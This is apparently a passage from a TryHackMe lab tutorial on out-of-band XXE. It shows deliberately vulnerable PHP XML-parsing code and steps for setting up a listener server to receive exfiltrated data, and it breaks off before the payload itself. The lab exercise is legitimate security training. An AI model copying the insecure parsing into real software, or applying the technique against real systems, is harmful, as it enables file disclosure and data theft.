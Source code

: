 ## Exploiting XXE - Out-of-Band

#### Out-Of-Band XXE

On the other hand, to demonstrate this vulnerability, go to [http://10.10.89.251/index.php](http://10.10.89.251/index.php). The application uses the below code when a user uploads a file:

```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server.

For this attack, we will need a server that will receive data from other servers. You can use Python's http.server module, although there are options out there, like Apache or Nginx. Using AttackBox or your own machine, start a Python web server by using the command:

Starting a Python Webserver

**Kali**

```shell-session
python3 -m http.server 1337
```

Upload a file in the application and monitor the request that is sent to `submit.php` using your Burp. Forward the request below to Burp Repeater.

![Forward the request to repeater](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0ac465ae50933198b249c9e622cb8d9d.png)\


Using the payload below, replace the value of the XML file in the request and resend it. Note that you have to replace the ATTACKER\_IP variable with your own IP.
